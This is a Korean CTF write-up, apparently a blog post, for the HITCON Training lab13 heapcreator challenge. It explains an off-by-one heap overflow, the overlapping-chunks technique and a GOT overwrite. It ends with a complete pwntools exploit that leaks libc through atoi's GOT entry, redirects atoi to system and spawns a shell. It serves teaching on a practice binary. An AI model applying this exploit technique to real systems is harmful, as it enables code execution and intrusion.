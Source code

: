 ```yaml
---
layout: post
title: "[HITCON Training] lab13"
comments : true
category : War Game
---
```


# 문제
***

heapcreator 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
heapcreator: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e69111eca74cba2fb372dfcd3a59f93ca58f858, not stripped
```

바이너리 코드

__create_heap()__
```c
__int64 create_heap()
{
    ...
    for(i=0;i<=9;i++)
    {
        if(!heaparray[i])
        {
            heaparray[i] = malloc(0x10);
            ...
            printf("Size of Heap : ");
            read(0,&buf,8);
            size = atoi(buf);
            v0 = heaparray[i]
            v0[1] = malloc(size);
            ...
            *(_QWORD *)heaparray[i] = size;
            printf("Content of heap:");
            read_input(*((void **)heaparray[i] + 1), size);
            ...
        }
    }
}
```

__edit_heap()__
```c
__int64 edit_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        printf("Content of heap : ");
        read_input(*((void **)heaparray[i] + 1), *(_QWORD *)heaparray[i] + 1);
        puts("Done !");
    }
    ...
}
```

__show_heap()__
```c
__int64 show_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        printf("size : %ld\nContent : %s\n", *(_QWORD *)heaparray[v1], *((_QWORD *)heaparray[i] + 1));
        puts("Done !");
    }
    ...
}
```

__delete_heap()__
```c
__int64 delete_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        free(*((void **)heaparray[i] + 1));
        free(heaparray[i]);
        heaparray[i] = 0;
        puts("Done !");
    }
    ...
}
```

heaparray[i] : 0x20 크기의 chunk 주소 저장
0x20 크기의 chunk : size | malloc(size)로 할당한 chunk 주소 <br/>

__edit_heap()__ 함수에서 1byte overflow가 발생한다. 따라서 할당한 chunk의 크기를 (16바이트 단위의 크기 - 8)로 하면 다음 chunk의 size 영역에 1byte를 덮어쓸 수 있다.

## Overlapping Chunks 취약점
__조건__
- free chunk를 생성할 수 있어야 한다.
- free chunk의 size 영역을 overwrite할 수 있어야 한다.
<br/>

__공격 방법__
- 3개의 chunk 생성 
- 2번째 chunk를 free한다.
- free chunk의 size 영역에 재할당 받을 크기의 값을 덮어쓴다. (2번째 chunk의 크기 + 3번째 chunk의 크기 + prev_inuse(1))
- 2번째 chunk의 크기 + 3번째 chunk의 크기를 malloc을 통해서 할당받으면 2번쨰 chunk의 주소가 리턴된다. 이를 통해서 3번째 chunk에 overwrite할 수 있다.

## exploit 방법
1. __create_heap()__ 함수를 통해서 chunk를 2개 할당한다. (첫 번째 heap의 크기는 (16*X - 8)로 하고 두 번째 heap의 크기는 0x20이 되도록 한다.)
2. __edit_heap()__ 함수를 이용해서 heaparray[1]에 저장되어 있는 chunk의 size를 overwrite 한다. 
3. heaparray[1]의 chunk를 free한다.
4. __create_heap()__ 함수를 통해서 overwrite한 크기의 chunk를 할당한다. 이를 통해서 heaparray[1]에 저장된 chunk의 data 영역을 overwrite할 수 있다.

__주의할 점__ <br/>
만약 0x100 크기의 small chunk (large chunk) 두 개를 할당하고 앞에 있는 small chunk의 size 영역을 0x201로 덮어쓰는 공격이 가능하다고 하자. 그 뒤에 두 chunk를 free하고 mallc(0x1f0)하면 첫 번째 chunk의 주소가 리턴된다. 하지만 그 이후 malloc(0xf0)을 하면 error가 발생한다. unlink 함수에서 chunksize(P) != prev_size (next_chunk(P) 이 조건을 만족시키지 못해서 터지는 것 같다.


 
# 풀이
***
```
#!/usr/bin/python

from pwn import *

def create_heap(size,content):
	p.recvuntil("choice :")
	p.send("1"+"\x00")
	p.recvuntil(" : ")
	p.send(size)
	p.recvuntil("heap:")
	p.send(content)
	p.recvuntil("SuccessFul\n")

def edit_heap(index,content):
	p.recvuntil("choice :")
	p.send("2"+"\x00")
	p.recvuntil(" :")
	p.send(index)
	p.recvuntil("heap : ")
	p.send(content)
	p.recvuntil("!\n")

def show_heap(index):
	p.recvuntil("choice :")
        p.send("3"+"\x00")
        p.recvuntil(" :")
        p.send(index)
	p.recvuntil("Content : ")
	content=p.recvuntil("\n", drop=True)
	p.recvuntil("!\n")
	return content

def delete_heap(index):
	p.recvuntil("choice :")
	p.send("4"+"\x00")
	p.recvuntil(" :")
	p.send(index)
	p.recvuntil("!\n")

file_path="/home/sungyun/round4/lab13/heapcreator"

puts_got=0x602028
atoi_got=0x602060

p=process(file_path)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

create_heap("40","ha_weeee^____^")
create_heap("16","ba_weeee^____^")

pay="A"*40
pay+="\x41"

edit_heap("0",pay)

delete_heap("1")

create_heap("48","1_c4n_0verwrite")

pay2="A"*0x20
pay2+="\x30"+"\x00"*7
pay2+=p64(atoi_got)

edit_heap("1",pay2)

atoi_got=show_heap("1")
atoi_got=u64(atoi_got+"\x00"*(8-len(atoi_got)))

libc_base=atoi_got-libc.symbols['atoi']
#one_gad=libc_base+0x4526a
system=libc_base+libc.symbols['system']

edit_heap("1",p64(system))


p.recvuntil("choice :")
p.send("sh\x00")

p.interactive()
```

